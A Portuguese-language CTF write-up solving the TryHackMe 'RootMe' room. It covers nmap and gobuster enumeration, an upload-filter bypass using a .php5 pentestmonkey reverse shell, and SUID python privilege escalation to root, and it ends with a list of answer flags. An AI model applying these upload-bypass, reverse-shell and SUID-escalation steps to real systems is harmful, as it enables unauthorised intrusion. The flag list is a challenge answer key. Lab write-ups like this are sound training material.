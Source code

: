 CTF ROOTME

Ao ver o ip precisavamos dar um nmap para ver 

    sudo nmap -sS "ip"
    
verificando assim, que tinham duas portas abertas ssh 22 e apache 80 http 
para verificar a versao do apache:

    sudo nmap -sV -p80 "ip"

apos entregar essas flags tinhamos que usar a ferramenta Gobuster com a wordlista "common.txt"

    gobuster dir -u http://10.10.136.202/ -w /usr/share/dirb/wordlists/common.txt 

assim encontrando o diretorio /panel/ ao acessar esse diretorio tinha uma opcao para enviar um arquivo, ao procurar um reverseshell para enviar um arquivo PHP encontrava-se um .php que dava acesso ao servidor, ao configurar o arquivo nao era possivel enviar um ".php" e apenas mudando para ".php5" era possivel enviar o arquivo e criando uma porta para o meu terminal

    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

ao entrar no servidor dei o seguinte comando em python:

    python -c "import pty;pty.spawn('/bin/bash')"

para acessar a raiz dei o comando:

     cd ~

encontrava-se o arquivo user.txt, ao dar cat user.txt 

    THM{y0u_g0t_a_sh3ll}

agora a gente precisava da permissao root pelas flags ele informou o SUID e ao procurar o arquivo "diferente" era possivel encontrar o 

    /usr/bin/python

ao acessar o site gtfobins procurava o python SUID e executava o comando 

    ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

assim sendo possivel acessar a pasta root e capturando a ultima flag

    THM{pr1v1l3g3_3sc4l4t10n}


capturando todas as flags do desafio RootMe

FLAGS

    Flag 1: 2
    Flag 2: 2.4.29
    Flag 3: ssh
    Flag 4: /panel/
    Flag 5: THM{y0u_g0t_a_sh3ll}
    Flag 6: /usr/bin/python
    Flag 7: THM{pr1v1l3g3_3sc4l4t10n}



